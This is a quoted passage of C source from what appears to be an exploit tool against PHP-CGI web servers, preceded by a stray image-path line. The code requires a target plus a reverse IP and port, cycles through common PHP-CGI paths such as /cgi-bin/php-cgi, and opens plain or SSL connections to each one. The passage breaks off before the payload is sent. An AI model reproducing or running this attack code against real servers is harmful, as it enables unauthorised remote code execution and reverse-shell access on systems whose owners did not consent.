 >         break;
>        default:
>         usage(argv);
>       }
>       break;
>      
>      default:
>       usage(argv);
>      }
>   }
> 
>   if ((optind < argc) || !target || !protocol || !port ||
>       !reverseip || !reverseport){
>     usage(argv);
>   }
>   
>   server = gethostbyname_(target, port);
>   if (!server) {
>    printf("Error while resolving hostname. (7)\n");
>    exit(255);
>   }
> 
>   char *interpreters[5];
>   int ninterpreters = 5;
>   interpreters[0] = strdup("/cgi-bin/php");
>   interpreters[1] = strdup("/cgi-bin/php5");
>   interpreters[2] = strdup("/cgi-bin/php-cgi");
>   interpreters[3] = strdup("/cgi-bin/php.cgi");
>   interpreters[4] = strdup("/cgi-bin/php4");
>   
>   for (i=0;i<ninterpreters;i++) {
>    interpreter = interpreters[i];
>    if (forceinterpreter) {
>      interpreter = strdup(forceinterpreter);
>    }
>    if (forceinterpreter && i)
>     break;
>    printf("%s\n", interpreter);
>    
>    sockfd = socket(AF_INET, SOCK_STREAM, 0);
>    if (sockfd < 1) { 
>      printf("socket error (8)\n");
>      exit(255);
>    }
>   
>    if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
>     printf("connect error (9)\n");
>     exit(255);    
>    }
>    if (httpsflag) {
>     sslconnection = (connection*) malloc(sizeof(connection));
>     if (!sslconnection) {
>      printf("malloc error (10)\n");
>      exit(255);   
>     }
>     sslconnection->handle = NULL;
>     sslconnection->ctx = NULL;
> 
>     SSL_library_init();
> 
>     sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
>     if (!sslconnection->ctx) {
>      printf("SSL_CTX_new error (11)\n");
>      exit(255);